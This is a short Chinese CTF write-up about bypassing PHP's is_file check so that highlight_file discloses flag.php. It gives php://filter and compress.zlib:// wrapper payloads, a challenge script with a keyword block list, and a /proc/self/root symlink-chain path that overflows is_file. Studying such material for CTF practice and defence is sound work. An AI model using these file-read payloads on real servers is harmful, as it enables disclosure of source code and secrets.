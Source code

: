 > is_file判断所给文件名是否为一个正常的文件
> filename为文件路径
>
> ```php
> is_file ( string $filename ) : bool
> ```

要不被is_file检测出来，然后highlight_file可以识别
那么就可用伪协议：

```
php://filter/resource=flag.php

php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php

php://filter/read=convert.quoted-printable-encode/resource=flag.php

compress.zlib://flag.php
```

## 113-is_file-目录溢出

```php
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

过滤了filter，不过`compress.zlib://flag.php`依然可用

[WMCTF2020 PHP source analysis (frankli.site)](https://blog.frankli.site/2020/08/05/Security/php-src/WMCTF2020-PHP-source-analysis/)



预期解是：

> **在linux中/proc/self/root是指向根目录的，也就是如果在命令行中输入ls /proc/self/root，其实显示的内容是根目录下的内容.**
>
> 那么超过20次的软连接后就会造成目录溢出，和is_file()能处理的长度有关
> 从而绕过is_file，而highlight_file可以识别

```
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```
